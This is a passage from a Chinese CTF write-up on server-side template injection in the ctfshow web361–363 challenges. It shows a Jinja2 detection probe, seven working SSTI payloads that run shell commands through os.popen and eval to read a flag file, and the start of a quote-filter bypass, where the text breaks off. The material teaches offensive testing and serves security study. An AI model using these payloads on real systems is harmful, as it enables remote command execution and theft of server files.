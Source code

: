 [TOC]

## ctfshow【SSTI】



![ssti](https://s2.loli.net/2023/04/24/rYUZ1ajV2o5BL43.png)

### web361

![image-20230424142934441](https://s2.loli.net/2023/04/24/1uZCF5s9Tp7qUJB.png)



首先get传参name，测试一下 `{'7'*7}`出现了7个7，代表这是python中的`jinja2模板`

这一题没有过滤什么东西，有很多种姿势，hackbar中自带了一些ssti的payload

![image-20230424143729232](https://s2.loli.net/2023/04/24/1aJIYiX2WlMN6P4.png)

```python
{{lipsum.__globals__['os'].popen('cat /flag').read()}}

{{lipsum.__globals__['__builtins__'].__getitem__("eval")("__import__('os').popen('cat /flag').read()")}}

{{config.__init__.__globals__['__builtins__'].__getitem__("eval")("__import__('os').popen('cat /flag').read()")}}

{{"".__class__.__bases__[0].__subclasses__()['catch_warnings'].__init__.__globals__['__builtins__'].__getitem__("eval")("__import__('os').popen('cat /flag').read()")}}

{{get_flashed_messages.__globals__.__builtins__['__import__']('os').popen('cat /flag').read()}}

{{url_for.__globals__.__builtins__['__import__']('os').popen('cat /flag').read()}}

{{x.__init__.__globals__['__builtins__'].__getitem__("eval")("__import__('os').popen('cat /flag').read()")}}
```

还有很多种姿势





### web362

把数字给过滤了，但是无所谓，上面的payload还是能用



### web363

把引号给过滤了，那么我们就不能使用上面的姿势了，我们需要找一种新的方式，

我们可以尝试使用get传参：`request.args.xxx`，
